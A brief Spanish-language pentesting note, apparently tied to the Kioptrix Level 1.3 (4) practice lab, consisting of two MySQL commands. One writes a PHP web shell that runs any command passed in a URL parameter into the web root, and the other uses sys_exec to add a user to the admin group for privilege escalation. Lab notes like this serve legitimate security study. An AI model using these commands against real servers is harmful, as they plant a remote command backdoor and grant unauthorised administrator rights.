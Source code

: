 Usado en [[Kioptrix Level 1.3 (4)]]
```sql
mysql> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/shell.php';
```

```sql
mysql> select sys_exec('usermod -aG admin alexi');
```